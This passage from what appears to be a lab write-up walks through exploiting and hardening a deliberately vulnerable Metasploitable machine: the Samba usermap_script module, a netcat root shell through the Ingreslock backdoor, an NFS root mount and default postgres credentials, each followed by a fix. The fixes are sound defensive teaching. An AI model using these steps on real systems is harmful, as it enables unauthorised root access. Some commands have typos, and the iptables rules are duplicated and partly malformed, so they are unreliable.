 There is another Metasploitable exploit so you just `use exploit/multi/samba/usermap_script` and `run` it to gain access to the victims machine.

Samba released a patch here, but another alternative is to comment out the userman script line in the samba config file. This can be found in `/etc/samba/smb.conf` on the Metasploitable machine. 

```text
#username map script = /etc/samba/scripts/mapusers.sh
```
* metasploit module ` ` set RPORT 445

### Port 1524 - Ingreslock Backdoor
----
`telnet metasploitable_ip 1524`

`id`

Port 1524 has the `xinetd super server daemon` running on it. This exploit is as simple as using a `netcat` command to get root access of the machine. 

`nc meatspoit_ip 1524`

This works due to the Ingreslock backdoor placed on the machine. If you go to `/etc/inetd.conf`, you can see the last line has this. 

`ingreslock stream tcp nowait root /bin/bash bash -i`

All that needs to be done here is delete that entire line, and then reboot the machine. 

Note that if you did find a line like this in your config in the wild, you would have to do some more digging to make sure the backdoor didn't spread elsewhere.

### Port 2049 - NFS
----
* Note that for this exploit, you need to first install `nfs-common` with `apt install nfs-common` on your Kali Linux machine. 

* There are many steps you can take to harden the NFS service, however for this particular machine I just added iptables commands to block the Kali machines IP from attempting to mount the Metasploitable machine. 

```bash
iptables -A INPUT -p tcp -s kali_ip --dport 2049 -m state --state NEW,ESTABLISH,RELATED -j DROP
iptables -A INPUT -p tcp -s kali_ip --dport 2049 -m state --state NEW,ESTABLISH,RELATED -j DROP
iptables -A OUTPUT -p udp -s kali_ip --dport 2049 -m state --state NEW,ESTABLISH,RELATED -j DROP
iptables -A OUTPUT -p udp -s kali_ip --dport 2049 -m state --state NEW,ESTABLISH,RELATED -j DROP
```

* `mount -t nfs metasploitable_ip:/ Exploit/`

### Port 5432 - PostGresSQL
---
* Weak password `postgres:postgres`

This is another easy Metasploit exploit that allows the attacker direct access into the meterpreter shell. 
